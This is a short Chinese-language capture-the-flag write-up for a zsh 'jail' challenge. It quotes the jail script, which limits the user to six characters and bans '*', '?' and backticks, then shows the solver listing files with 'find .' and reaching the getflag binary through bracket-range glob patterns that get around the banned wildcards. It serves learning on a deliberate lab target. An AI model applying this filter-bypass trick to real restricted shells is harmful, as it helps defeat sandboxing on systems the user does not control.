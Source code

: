 很符合misc的一道题，先给了zsh脚本文件的源码

```sh
#!/bin/zsh
print -n -P "%F{green}Specify your charset: %f"
read -r charset
# get uniq characters in charset
charset=("${(us..)charset}")
banned=('*' '?' '`')

if [[ ${#charset} -gt 6 || ${#charset:|banned} -ne ${#charset} ]]; then
    print -P "\n%F{red}That's too easy. Sorry.%f\n"
    exit 1
fi
print -P "\n%F{green}OK! Got $charset.%f"
charset+=($'\n')

# start jail via coproc
coproc zsh -s
exec 3>&p 4<&p

# read chars from fd 4 (jail stdout), print to stdout
while IFS= read -u4 -r -k1 char; do
    print -u1 -n -- "$char"
done &
# read chars from stdin, send to jail stdin if valid
while IFS= read -u0 -r -k1 char; do
    if [[ ! ${#char:|charset} -eq 0 ]]; then
        print -P "\n%F{red}Nope.%f\n"
        exit 1
    fi
    # send to fd 3 (jail stdin)
    print -u3 -n -- "$char"
done
```

就是根据zsh然后想办法执行getflag就可以了

先试一下find .,获取当前目录下的文件

```shell
root@cyny666:~# nc mc.ax 31774
Specify your charset: find .

OK! Got f i n d   ..
find .
.
./y0u
./y0u/w1ll
./y0u/w1ll/n3v3r_g3t
./y0u/w1ll/n3v3r_g3t/th1s
./y0u/w1ll/n3v3r_g3t/th1s/getflag
./run
```

然后想办法执行这个exe  ./y0u/w1ll/n3v3r_g3t/th1s/getflag

这里可以用字符匹配，但是禁用了*和?

于是可以用正则匹配

```
[--~][--~][--~]/[--~][--~][--~][--~]/[--~][--~][--~][--~][--~][--~][--~][--~][--~]/[--~][--~][--~][--~]/[--~][--~][--~][--~][--~][--~][--~]
```

然后即可执行这个文件